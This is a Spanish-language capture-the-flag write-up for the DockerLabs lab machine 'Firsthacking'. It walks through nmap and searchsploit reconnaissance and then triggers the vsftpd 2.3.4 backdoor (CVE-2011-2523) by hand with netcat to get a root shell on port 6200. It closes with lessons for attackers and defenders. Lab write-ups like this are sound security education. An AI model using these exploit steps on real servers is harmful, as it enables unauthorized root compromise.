






# Firsthacking — DockerLabs
 
**Dificultad:** Muy fácil | **SO:** Linux | **Fecha:** 2026-03-31  
**Autor del writeup:** [krinoxx](https://github.com/krinoxx)  
**Plataforma:** [DockerLabs](https://dockerlabs.es)
 
---
 
## Índice
 
1. [Reconocimiento](#reconocimiento)
2. [Enumeración](#enumeración)
3. [Explotación](#explotación)
4. [Post-explotación / Escalada de privilegios](#post-explotación--escalada-de-privilegios)
5. [Lecciones aprendidas](#lecciones-aprendidas)
 
---
 
## Reconocimiento
 
Antes de lanzar cualquier herramienta, desplegamos la máquina en Docker y confirmamos que el objetivo está activo en `172.17.0.2` enviando tres paquetes ICMP:
 
```bash
sudo bash auto_deploy.sh firsthacking.tar
ping -c 3 172.17.0.2
```
 

 
La máquina responde correctamente, confirmando conectividad. Procedemos a enumerar los servicios expuestos.
 
---
 
## Enumeración
 
Lanzamos un escaneo con `nmap` para identificar puertos abiertos y versiones de servicios:
 
```bash
nmap -sV 172.17.0.2
```
 

 
**Resultado:**
 
| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21/tcp | FTP | vsftpd 2.3.4 |
 
**Análisis:** Solo hay un puerto abierto. La versión concreta del servicio es clave — vsftpd 2.3.4 es una versión notoriamente vulnerable. Buscamos exploits conocidos para esta versión:
 
```bash
searchsploit vsftpd 2.3.4
```
 

 
Encontramos dos exploits para **CVE-2011-2523**:
 
| Archivo | Tipo |
|---------|------|
| `49757.py` | Backdoor Command Execution (Python) |
| `17491.rb` | Backdoor Command Execution (Metasploit) |
 
Copiamos el exploit en Python para analizarlo:
 
```bash
searchsploit -p 49757.py
cp /usr/share/exploitdb/exploits/unix/remote/49757.py .
cat 49757.py
```
 

 
Del análisis del código extraemos cómo funciona la backdoor:
 
- Si el usuario FTP contiene `:)` al final, se activa la puerta trasera
- La contraseña es irrelevante, cualquier valor es válido
- El servidor abre automáticamente una shell en el **puerto 6200**
 
---
 
## Explotación
 
En lugar de ejecutar el script directamente, reproducimos el exploit manualmente con **netcat** para entender cada paso.
 
**Paso 1 — Activamos la backdoor conectándonos al FTP:**
 
```bash
nc 172.17.0.2 21
USER mario:)
PASS cualquiercosa
```
 

 
El servidor acepta la conexión. El `:)` en el nombre de usuario activa la backdoor internamente y el servidor abre una shell en el puerto 6200.
 
**Paso 2 — Nos conectamos a la shell abierta:**
 
En una segunda terminal:
 
```bash
nc 172.17.0.2 6200
whoami
```
 

 
**Resultado:**
 
```
root
```
 
✅ **Acceso conseguido como root directamente.**
 
---
 
## Post-explotación / Escalada de privilegios
 
La shell obtenida nos otorga acceso directo como **root**, el usuario con máximos privilegios en Linux. En esta máquina no es necesaria escalada de privilegios — la backdoor CVE-2011-2523 nos da control total del sistema desde el primer momento.
 
```bash
whoami
# root
 
id
# uid=0(root) gid=0(root) groups=0(root)
```
 
En un entorno real esto supondría el compromiso total del servidor: acceso a todos los archivos, credenciales, bases de datos y posibilidad de pivotar hacia otros sistemas de la red.
 
---
 
## Lecciones aprendidas
 
### Desde el punto de vista del atacante
 
- **Siempre verificar versiones** — `nmap -sV` nos dio la versión exacta del servicio, que fue la clave de toda la explotación. Sin ese dato no habríamos sabido qué buscar.
- **searchsploit es el primer recurso** cuando encuentras una versión de servicio específica. Antes de buscar en Google, consúltalo — funciona offline y es más rápido.
- **Entender el exploit antes de ejecutarlo** — leer el código del script nos permitió reproducirlo manualmente con netcat y comprender exactamente qué ocurría en cada paso.
- **Las backdoors son especialmente peligrosas** porque no dependen de un error de configuración sino de código malicioso intencionado. vsftpd 2.3.4 fue comprometido en 2011 directamente en su repositorio oficial.
 
### Desde el punto de vista del defensor
 
- **Nunca usar software sin verificar su integridad** — CVE-2011-2523 fue introducido deliberadamente en el código fuente oficial. Verificar hashes y firmas antes de desplegar cualquier servicio es esencial.
- **Mantener el software actualizado** — vsftpd 2.3.4 tiene una vulnerabilidad pública desde 2011. Cualquier versión sin parchear en producción es un riesgo inaceptable.
- **Principio de mínima exposición** — si FTP no es estrictamente necesario, no debería estar expuesto. Cada puerto abierto es una superficie de ataque adicional.
- **Monitorizar conexiones salientes** — la backdoor abre el puerto 6200 en el servidor. Un sistema de detección de intrusiones habría alertado de esa conexión inesperada.
 
---
 
*Writeup realizado con fines educativos en un entorno controlado de DockerLabs.*
